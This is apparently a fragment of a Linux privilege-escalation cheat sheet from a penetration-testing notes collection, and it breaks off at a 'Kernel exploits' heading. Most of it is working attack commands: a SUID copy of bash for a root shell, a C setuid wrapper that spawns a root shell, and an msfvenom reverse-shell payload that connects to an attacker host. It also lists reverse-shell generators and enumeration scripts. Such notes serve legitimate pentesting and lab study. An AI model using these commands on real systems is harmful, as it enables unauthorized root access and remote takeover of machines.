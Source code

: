 ### Rootbash

```text
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
/tmp/rootbash -p
```

### Executable

Create bash wrapper in c

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Then, compile it as a root

```text
gcc -o <out_file> <source_code>
```

### Msfvenom executable

Create msfvenom payload, then execute as a root.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

### Native reverse shells

```text
https://github.com/mthbernardes/rsg
```

## Enumeration tools

```text
https://github.com/diego-treitos/linux-smart-enumeration
https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/sleventyeleven/linuxprivchecker
https://github.com/AlessandroZ/BeRoot
http://pentestmonkey.net/tools/audit/unix-privesc-check
```

## Techniques

### Kernel exploits

Enumerate the kernel version:
